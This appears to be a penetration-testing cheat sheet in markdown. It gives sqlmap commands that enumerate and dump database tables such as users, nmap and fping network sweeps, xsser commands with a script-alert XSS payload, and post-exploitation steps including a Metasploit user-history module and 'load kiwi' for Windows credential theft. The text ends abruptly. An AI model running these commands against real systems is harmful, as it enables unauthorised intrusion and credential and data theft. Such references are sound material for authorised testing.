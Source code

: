 ```

sqlmap basic methodology
1) Get the Database type, current user, is the current user the database admin and database name using the ```--banner```, ```--current-user``` , ```--current-db``` and ```--is-dba``` 
```sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba```

2) Enumerate tables. Use ```--tables``` to enuerate tables  and ```-D <database name>``` 
```sqlmap -u "http://www.example.com/?id=1" --tables -D testdb```

3) Dump a table using the ```-T <table name>``` and ```--dump```
```sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb```

4) Further Column enumeration with  ```-C <column names here>``` or ```--start=<column number>``` and ```--stop=<column number>``` (not 0 indexed) or based on conditional statements with ```--where=<condition```

```sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname```
```sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3```
```sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"```

consider ```--schema``` and ```--where=``` for additional info

https://github.com/payloadbox/sql-injection-payload-list sql payloads

## Map a network

```nmap -sn -oN ip_list <ip>```
```fping -g -a <ip> 2>/dev/null```

## XSS

Xsser needs somewhere in the request a XSS.

Post requests

```
xsser -u <url> -p <parameters in submit form>
xsser -u <url> -p <parameters in the submit form> --auto (remember the -u and -p need to be in "" for this to work)
xsser -u <url> -p <parameters in the submit form> -Fp <custom payload>
```
example

```xsser -u "http://example.com" -p "username=XSS&submit_button=activate"```

get requests (for reflected xss)

```
xsser -u <url> 
xsser -Fp <custom payload>
```
example

```xsser -u 'http://example.com?poll=XSS' --Fp <script>alert("Hi")</script>```

## Post exploitation

linux
```
use linux/gather/enum_users_history`
```

windows

```
load kiwi